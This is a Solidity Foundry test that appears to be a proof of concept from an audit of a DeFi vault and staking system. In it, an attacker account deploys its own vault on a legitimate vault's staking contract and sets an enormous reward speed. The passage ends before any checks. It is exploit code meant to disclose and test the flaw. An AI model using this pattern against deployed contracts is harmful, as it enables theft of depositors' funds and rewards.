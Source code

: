 ```solidity
    addTemplate("Strategy", "MockStrategy", strategyImpl, false, true);
    addTemplate("Vault", "V1", vaultImpl, true, true);

    // 1. deploy regular legit vault owned by this
    address vault = deployVault();
    address staking = vaultRegistry.getVault(vault).staking;

    rewardToken.mint(staking, 1_000_000 ether);

    vm.startPrank(bob);
    asset.mint(bob, 10000 ether);
    asset.approve(vault, 10000 ether);
    IVault(vault).deposit(10000 ether, bob);
    IVault(vault).approve(staking, 10000 ether);
    IMultiRewardStaking(staking).deposit(9900 ether, bob);
    vm.stopPrank();

    vm.startPrank(alice);
    // 2. deploy attacker-owned vault using the same Staking contract as legit vault
    // alice is the attacker
    address attackerVault = controller.deployVault(
      VaultInitParams({
        asset: iAsset,
        adapter: IERC4626(address(0)),
        fees: VaultFees({
          deposit: 100,
          withdrawal: 200,
          management: 300,
          performance: 400
        }),
        feeRecipient: feeRecipient,
        owner: address(this)
      }),
      DeploymentArgs({ id: templateId, data: abi.encode(uint256(100)) }),
      DeploymentArgs({ id: 0, data: "" }),
      staking,
      "",
      VaultMetadata({
        vault: address(0),
        staking: staking,
        creator: alice,
        metadataCID: metadataCid,
        swapTokenAddresses: swapTokenAddresses,
        swapAddress: address(0x5555),
        exchange: uint256(1)
      }),
      0
    );

    asset.mint(alice, 10 ether);
    asset.approve(vault, 10 ether);
    IVault(vault).deposit(10 ether, alice);
    IVault(vault).approve(staking, 10 ether);
    IMultiRewardStaking(staking).deposit(1 ether, alice);

    address[] memory targets = new address[](1);
    targets[0] = attackerVault;
    IERC20[] memory rewardTokens = new IERC20[](1);
    rewardTokens[0] = iRewardToken;
    uint160[] memory rewardsSpeeds = new uint160[](1);
    rewardsSpeeds[0] = 990_099_990 ether;
    controller.changeStakingRewardsSpeeds(targets, rewardTokens, rewardsSpeeds);

```